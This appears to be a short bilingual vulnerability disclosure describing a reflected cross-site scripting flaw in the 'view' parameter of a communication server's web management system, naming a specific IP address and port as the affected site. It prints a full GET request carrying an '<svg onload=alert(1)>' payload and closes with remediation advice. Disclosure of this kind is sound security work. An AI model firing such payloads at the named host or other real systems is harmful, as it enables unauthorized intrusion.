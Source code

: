 # xss vulnerability of view parameter of communication server web management system

### 企业官网(Enterprise official website)：

http://117.157.85.8:9092/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?callback=p5620&cat=javq6&categoryid=te9s2&emailto=ih705&from=s7mr2&immagine=q9kp4&jsonp=evxp0&key=jza06&keywords=rxvf3&lang=hqp59&list_type=twby9&mod=ndiw0&month=tq8g8&name=cshm7&q=h9540&region=yecb3&terms=eo7f1&token=y9kz9&url=veet0&view=<svg onload=alert(1)>// HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```

![](16.png)

### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

